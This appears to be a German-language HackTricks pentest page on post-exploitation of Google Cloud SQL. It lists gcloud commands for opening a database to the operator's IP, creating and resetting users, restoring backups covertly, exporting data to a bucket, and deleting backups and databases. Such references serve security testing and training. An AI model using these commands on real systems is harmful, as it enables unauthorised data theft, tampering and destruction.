 # GCP - Cloud SQL Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Cloud SQL

Für weitere Informationen zu Cloud SQL siehe:

{{#ref}}
../gcp-services/gcp-cloud-sql-enum.md
{{#endref}}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Um eine Verbindung zu den Datenbanken herzustellen, **benötigen Sie nur Zugriff auf den Datenbankport** und müssen den **Benutzernamen** und das **Passwort** kennen, es gibt keine IAM-Anforderungen. Eine einfache Möglichkeit, Zugriff zu erhalten, vorausgesetzt, die Datenbank hat eine öffentliche IP-Adresse, besteht darin, die erlaubten Netzwerke zu aktualisieren und **Ihre eigene IP-Adresse den Zugriff zu erlauben**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Es ist auch möglich, **`--no-backup`** zu verwenden, um die **Backups** der Datenbank zu **stören**.

Da dies die Anforderungen sind, bin ich mir nicht ganz sicher, wofür die Berechtigungen **`cloudsql.instances.connect`** und **`cloudsql.instances.login`** gedacht sind. Wenn du es weißt, sende einen PR!

### `cloudsql.users.list`

Erhalte eine **Liste aller Benutzer** der Datenbank:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Diese Berechtigung erlaubt es, **einen neuen Benutzer innerhalb** der Datenbank zu erstellen:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Diese Berechtigung ermöglicht es, **Benutzer innerhalb** der Datenbank zu **aktualisieren**. Zum Beispiel könnten Sie sein Passwort ändern:
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Backups könnten **alte sensible Informationen** enthalten, daher ist es interessant, sie zu überprüfen.\
**Stellen Sie ein Backup** in einer Datenbank wieder:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Um es stealthier zu machen, wird empfohlen, eine neue SQL-Instanz zu erstellen und die Daten dort wiederherzustellen, anstatt in den derzeit laufenden Datenbanken.

### `cloudsql.backupRuns.delete`

Diese Berechtigung erlaubt das Löschen von Backups:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Exportieren Sie eine Datenbank** in einen Cloud Storage Bucket, damit Sie von dort darauf zugreifen können:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Importieren Sie eine Datenbank** (überschreiben) aus einem Cloud Storage Bucket:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Löschen Sie eine Datenbank aus der DB-Instanz:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{{#include ../../../banners/hacktricks-training.md}}
